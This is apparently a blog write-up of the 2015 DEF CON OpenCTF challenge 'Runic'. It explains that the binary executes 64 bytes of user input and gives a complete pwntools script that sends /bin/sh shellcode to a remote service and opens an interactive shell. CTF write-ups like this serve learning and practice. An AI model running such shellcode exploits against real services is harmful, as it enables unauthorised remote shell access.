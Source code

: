 ```yaml
---
layout: post
title:  "Defcon OpenCTF - Runic"
date:   2015-08-13 18:03:59
categories: CTF
---
```


Below is the main function for Runic:

![Runic main](/assets/images/runic.png)

The following events happen:

* read() of 0x40 bytes (64 bytes)
* call() to the buffer that was just read into

We can send a max of 64 bytes of shellcode, which is immediately executed.

## Exploitation

The following script simply sends a `/bin/sh` shellcode, and a shell of ours.

{% highlight python %}
import sys
from pwn import * # pip install --upgrade git+https://github.com/binjitsu/binjitsu.git

context(arch='x86', os='linux')

HOST = '127.0.0.1'
PORT = 4444

## Example
# r = process('./runic')
r = remote(HOST, PORT)

# Debug process
'''
gdb.attach(r, """
bp 80484fa
c
""")
'''

shellcode = asm(shellcraft.sh())

r.sendline(shellcode)

r.interactive()
{% endhighlight %}
